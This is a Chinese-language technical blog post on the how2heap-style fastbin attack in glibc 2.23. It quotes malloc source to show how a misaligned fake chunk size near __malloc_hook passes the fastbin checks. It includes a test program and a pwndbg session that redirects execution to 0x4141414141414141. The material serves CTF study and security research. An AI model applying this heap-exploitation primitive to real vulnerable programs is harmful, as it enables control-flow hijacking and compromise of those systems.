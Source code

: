 ```yaml
---
title: fastbin size错位构造及源码分析
date: 2021-09-04 18:44:59
tags:
    - pwn
    - 源码分析
    - how2heap
    - fastbin
categories:
    - pwn
---
```


## fastbin size错位构造
> 这个主要是较之于tcache修改fd指针为libc区域 直接就能申请到那段空间
而在glibc2.23中没有tcache。但是也可通过在libc区域错位构造size，来申请那段空间

```c
/* offset 2 to use otherwise unindexable first 2 bins */
#define fastbin_index(sz) \
  ((((unsigned int) (sz)) >> (SIZE_SZ == 8 ? 4 : 3)) - 2)

static void *
_int_malloc (mstate av, size_t bytes)
{

  ...
  if ((unsigned long) (nb) <= (unsigned long) (get_max_fast ()))
    {
      idx = fastbin_index (nb);
      mfastbinptr *fb = &fastbin (av, idx);
      mchunkptr pp = *fb;
      do
        {
          victim = pp;
          if (victim == NULL)
            break;
        }
      while ((pp = catomic_compare_and_exchange_val_acq (fb, victim->fd, victim))
             != victim);
      if (victim != 0)
        {
//-------------------------------check----------------------------------------
          if (__builtin_expect (fastbin_index (chunksize (victim)) != idx, 0))
//-------------------------------check----------------------------------------
        
            {
              errstr = "malloc(): memory corruption (fast)";
            errout:
              malloc_printerr (check_action, errstr, chunk2mem (victim), av);
              return NULL;
            }
          check_remalloced_chunk (av, victim, nb);
          void *p = chunk2mem (victim);
          alloc_perturb (p, bytes);
          return p;
        }
    }

...
}



   0x7ffff7a8eeb6 <_int_malloc+806>     mov    eax, dword ptr [r15 + 8]
   0x7ffff7a8eeba <_int_malloc+810>     shr    eax, 4
   0x7ffff7a8eebd <_int_malloc+813>     sub    eax, 2
 ► 0x7ffff7a8eec0 <_int_malloc+816>     cmp    edi, eax


```
至于下边那个`check_remalloced_chunk (av, victim, nb);`
```c
#define MALLOC_DEBUG 0
...
#if !MALLOC_DEBUG
...
# define check_remalloced_chunk(A, P, N)
...
#else
...
# define check_remalloced_chunk(A, P, N) do_check_remalloced_chunk (A, P, N)
...
```
在宏中预编译的是`# define check_remalloced_chunk(A, P, N)`
所以直接无视该检查就行
* size右移了4位(应该是出于size 0x10对齐的缘故)，但是只有A M P三个标志位，所以第四位无需考虑.
* 由于右移了四位,即除以2**4（16）的整数部分，即构造时例如0x70的fastbin，fake_size在`[7*16,8x16)`区间都能满足第一个size检查
* 还有`(unsigned int) (sz)`中`unsigned int`是4byte,下边的汇编也可看到如此的结果，重点是高4byte是不计算的


此外
```c
#define IS_MMAPPED 0x2
#define NON_MAIN_ARENA 0x4

#define chunk_is_mmapped(p) ((p)->size & IS_MMAPPED)
#define chunk_non_main_arena(p) ((p)->size & NON_MAIN_ARENA)

#define heap_for_ptr(ptr) \
  ((heap_info *) ((unsigned long) (ptr) & ~(HEAP_MAX_SIZE - 1)))
#define arena_for_chunk(ptr) \
  (chunk_non_main_arena (ptr) ? heap_for_ptr (ptr)->ar_ptr : &main_arena)

void *
__libc_malloc (size_t bytes)
{
  mstate ar_ptr;
  void *victim;

  void *(*hook) (size_t, const void *)
    = atomic_forced_read (__malloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0));

  arena_get (ar_ptr, bytes);

  victim = _int_malloc (ar_ptr, bytes);
  /* Retry with another arena only if we were able to find a usable arena
     before.  */
  if (!victim && ar_ptr != NULL)
    {
      LIBC_PROBE (memory_malloc_retry, 1, bytes);
      ar_ptr = arena_get_retry (ar_ptr, bytes);
      victim = _int_malloc (ar_ptr, bytes);
    }

  if (ar_ptr != NULL)
    (void) mutex_unlock (&ar_ptr->mutex);
//--------------------------------check------------------------
  assert (!victim || chunk_is_mmapped (mem2chunk (victim)) ||
          ar_ptr == arena_for_chunk (mem2chunk (victim)));
//--------------------------------check------------------------
  return victim;
}
```
* 首先呢,`victim`是你伪造的地方,`!victim`不为真,向下检查
* `chunk_is_mmapped (mem2chunk (victim))`,如果条件为真,即有0x2的标志位,则总条件为真,直接结束.否则向下检查
* `ar_ptr == arena_for_chunk (mem2chunk (victim)));`,其中`ar_ptr`为`main_arena`,为了不触发断言错误,需要保证该条件成立.即需要`chunk_non_main_arena (ptr)`为假,也即没有0x4的标志位,如果有0x4的标志位,而选择去构造`heap_for_ptr (ptr)->ar_ptr`为`main_arena`，较为复杂，且`heap_for_ptr (ptr)`中的位操作容易寻址错误，就不考虑这种情况


* 标志位呢
  * `P-0x1-0b001-pre_inuse` 
  * `M-0x2-0b010-is_mmaped` 
  * `A-0x4-0b100-non_main_arena`
* 上边标志位的检查中,没有0x2的标志位,且有0x4的标志位才会触发错误.
  * ` hex(0b0100)->'0x4'`
  * ` hex(0b0101)->'0x5 `
  * ` hex(0b1100)->'0xc'` 
  * ` hex(0b1101)->'0xd'`
  * 这四种情况会报错
* 并没有看到检测地址对齐的指针。所以完全可以偏移构造size

测试代码
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
int main()
{
	uint64_t *p1 = malloc(0x68);
	uint64_t *p2 = malloc(0x68);
	malloc(0);

	free(p1);
	free(p2);

	// p2[0] = __malloc_hook-0x23

	malloc(0x68);
	uint8_t *p4 = malloc(0x68);

	memset(p4,'A',0x68);
	malloc(0);
	return 0;
}
```
断在`malloc(0x68);`
```shell
pwndbg> x/10gx ((uint8_t*)&__malloc_hook-0x23)
0x7ffff7dd1aed: 0xfff7dd0260000000	0x000000000000007f
0x7ffff7dd1afd:	0xfff7a92ea0000000	0xfff7a92a7000007f
0x7ffff7dd1b0d:	0x000000000000007f	0x0000000000000000
0x7ffff7dd1b1d:	0x0100000000000000	0x0000000000000000
0x7ffff7dd1b2d:	0x0000000000000000	0x0000000000000000

pwndbg> set p2[0] = (uint64_t)((uint8_t*)&__malloc_hook-0x23)
pwndbg> c

► 0x7ffff7a912f3 <malloc+371>    jmp    rax <0x4141414141414141>
```
其中的fake_size除了`0x74 0x75 0x7d 0x7c`其他都可以


* 利用时可以直接用dbg的`find_fake_fast addr`命令